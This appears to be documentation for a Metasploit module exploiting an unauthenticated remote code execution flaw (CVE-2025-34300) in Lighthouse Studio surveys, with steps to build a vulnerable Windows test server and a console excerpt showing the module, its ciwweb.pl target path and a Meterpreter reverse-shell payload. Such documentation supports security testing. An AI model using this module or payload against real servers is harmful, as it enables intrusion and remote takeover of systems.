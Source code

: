 Use this instruction to upload manually [Manual Upload to Server](https://sawtoothsoftware.com/help/lighthouse-studio/manual/manual-upload.html)

## Setup a Windows Server to Host Lighthouse Survey

1. Install xampp

2. Place survey for manual upload in c:\xampp\htdocs\

3. Install Perl 5.38

- Avoid installing 5.40 as it's missing some essential MySQL libraries required to connect the Lighthouse survey to database which is required in order to exploit this vulnerability

3. The `.pl` and `.cgi` files LightHouse generates will start with `#!/usr/bin/perl` which Windows will fail to interpret
- Either find and replace these with `#!C:/Strawberry/perl/bin/perl.exe` or edit the apache config such that Apache will always send these files to Strawberry Perl
 

4. Make the same edits to the Apache config as you would do on Linux to make the cgi scripts executable

5. Install the same Perl modules as you would during the Linux install

6. In phpMyAdmin, create the DB user and DB specified in the Survey you created in Lighthouse

7. Ensure the user has the necessary privileges over the DB

8. Navigate the to the /<SurveyName>/WebUpload/cgi-bin/admin.pl endpoint in the survey, authenticate with the admin credentials and ensure the the DB is connected and there were no errors durning setup

## Scenario

```
msf6 > use exploit/multi/http/lighthouse_studio_unauth_rce_CVE_2025_34300
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/lighthouse_studio_unauth_rce_CVE_2025_34300) > show options

Module options (exploit/multi/http/lighthouse_studio_unauth_rce_CVE_2025_34300):

   Name       Current Setting     Required  Description
   ----       ---------------     --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80                  yes       The target port (TCP)
   SSL        false               no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   STUDYNAME                      no        Value for the hid_studyname GET parameter
   TARGETURI  /cgi-bin/ciwweb.pl  yes       Path to vulnerable ciwweb.pl
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


```